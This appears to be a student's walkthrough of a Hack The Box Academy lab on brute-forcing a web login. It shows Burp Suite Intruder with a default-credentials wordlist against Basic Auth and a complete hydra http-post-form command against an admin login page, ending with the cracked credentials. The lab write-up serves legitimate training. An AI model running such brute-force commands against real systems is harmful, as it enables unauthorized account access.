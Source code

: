 # Skills Assessment Website  

[Skills Assessment Website](https://academy.hackthebox.com/module/57/section/515)  

>Target: `94.237.57.58:36713`  

>Website initial access is Basic Auth, and can Brute Force with Combined Wordlist.  

![skills assessment website](/images/skills-assessment-website.png)  

>Using Burp Suite intruder with a wordlist that combine the username and password on single line as single payload.

![skills-assessment website burp intruder](/images/skills-assessment-website-burp-intruder.png)  

>Credentials discovered using the wordlist: `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`

```
echo 'dXNlcjpwYXNzd29yZA==' | base64 -d;echo        
user:password
```

>Login Form Brute Force - Static User, and a Password Wordlist.  

>The HTML form name and web parameters from the login can be seen on Burp Suite Repeater request and response windows:  

![skills-assessment-website-burp-repeater](/images/skills-assessment-website-burp-repeater.png)  

```
hydra -L ../resources/demo-users.lst -P ../resources/demo-pass.lst -f 94.237.57.58 -s 36713 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"
```  

>Web application login Credentials discovered using brute force: `user:harrypotter`  
